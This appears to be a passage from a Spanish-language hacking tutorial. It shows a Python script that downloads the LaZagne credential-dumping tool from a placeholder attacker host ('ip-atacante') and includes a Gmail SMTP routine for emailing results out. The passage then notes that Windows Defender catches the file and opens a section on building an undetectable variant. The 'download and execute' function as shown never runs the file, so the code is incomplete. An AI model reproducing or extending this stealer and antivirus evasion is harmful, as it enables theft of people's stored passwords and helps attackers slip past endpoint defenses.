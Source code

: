 ```python
#!/usr/bin/python3

import subprocess
import smtplib
import requests
import tempfile
import os
from email.mime.text import MIMEText

def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = ', '.join(recipients)

    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
        smtp_server.login(sender, password)
        smtp_server.sendmail(sender, recipients, msg.as_string())

    print(f"\n[+] Email sent Successfully!\n")

def run_command(command):
    output_command = subprocess.check_output(command, shell=True)
    return output_command.decode("cp850")

def download_and_execute_lazagne():
    r = requests.get("http://ip-atacante/lazagne.exe")
    temp_file = tempfile.mkdtemp()
    os.chdir(temp_file)

    with open("lazagne.exe", "wb") as f:
        f.write(r.content)

if __name__ == '__main__':
    output_lazagne = download_and_execute_lazagne()
```

### Ejecución del script y detección por Windows Defender

Ejecutamos el script y nos dirigimos al directorio temporal que nos crea:

```bash
C:\Users\TuUsuario\AppData\Local\Temp\tmpoh1qte0m
```

Windows Defender lo detectará y eliminará.

---

# Creación de una Variante Indetectable por Windows Defender
